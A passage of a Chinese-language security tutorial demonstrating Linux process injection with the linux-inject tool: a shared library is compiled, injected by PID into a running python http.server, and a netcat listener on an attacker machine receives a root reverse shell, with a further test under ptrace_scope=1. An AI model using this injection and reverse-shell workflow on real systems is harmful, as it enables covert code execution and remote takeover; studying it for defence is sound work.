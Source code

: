 

我们用clang进行编译，编译前先安装`apt install clang`

```bash
clang -std=gnu99 -ggdb -D_GNU_SOURCE -shared -o poc1.so -lpthread -fPIC poc1.c
```

我们启动一个python进程用来注入

```
python3 -m http.server 9999
```

在攻击机上启动监听：

```
nc -lvvp 4444
```

注入：

```bash
➜ ps -ef | grep 9999 | grep -v grep
root      16603  15710  0 20:38 pts/3    00:00:00 python3 -m http.server 9999
➜ ./linux-inject/inject -p 16603 ./poc1.so
targeting process with pid 16603
ptrace(PTRACE_GETSIGINFO) failed
```

结果：

```bash
[root@master ~]# nc -lvvp 4444
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.16.42.151.
Ncat: Connection from 172.16.42.151:37444.
root@vuln:~/poc/linux-inject#
```



### 1.4 测试开启ptrace_scope

我用的debian,linux内核 4.19，测试是成功的

```bash
➜ echo 1 | tee /proc/sys/kernel/yama/ptrace_scope
1

➜ cat /proc/sys/kernel/yama/ptrace_scope
1

➜ ps -ef | grep 6666 | grep -v grep
root        854    649  1 10:32 pts/1    00:00:00 python3 -m http.server 6666

➜ ./linux-inject/inject -p 854 ./poc1.so
targeting process with pid 854
ptrace(PTRACE_GETSIGINFO) failed

➜ uname -a
Linux vuln 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64 GNU/Linux
```
